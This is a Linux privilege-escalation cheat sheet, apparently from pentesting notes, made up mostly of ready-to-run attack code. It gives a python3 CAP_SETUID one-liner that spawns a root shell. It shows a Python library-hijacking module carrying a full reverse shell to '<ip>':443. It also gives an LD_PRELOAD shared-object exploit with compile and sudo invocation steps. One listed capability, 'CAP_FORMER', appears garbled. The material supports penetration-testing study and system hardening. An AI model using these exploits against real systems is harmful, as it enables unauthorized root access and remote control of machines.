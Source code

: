 ## Exploiting capabilities
- Possibly dangerous capabilities:
```
=ep, CAP_CHOWN, CAP_DAC_OVERRIDE, CAP_DAC_READ_SEARCH, CAP_SETUID, CAP_SETGID, CAP_NET_RAW, CAP_SYS_ADMIN, 
CAP_SYS_PTRACE, CAP_SYS_MODULE, CAP_FORMER, CAP_SETFCAP
```
- Example exploiting `CAP_SETUID` set for python3:
```bash
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## Python library hijacking
- Check library loading locations order:
```bash
python -c 'import sys; print "\n".join(sys.path)' # The first empty one is the current dir
```
- Create required library copy keeping the same class/method signature and populate with the reverse shell code:
```python
import os
import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<ip>",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```
- Put code in the proper location if possible.
- Or modify PYTHONPATH env variable if sudo SETENV is set:
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/<some_python> <some_vulnerable_python_script>
```

## `LD_PRELOAD` exploit
- If `env_keep+=LD_PRELOAD` is set, use this exploit.
- `ld_preload_exploit.c`:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
- Compile it:
```bash
gcc -shared -fPIC -nostartfiles -o /tmp/ld_preload.so ld_preload_exploit.c
```
- Run sudo program with `LD_PRELOAD`:
```bash
sudo LD_PRELOAD=/tmp/ld_preload.so <sudo_program>
```
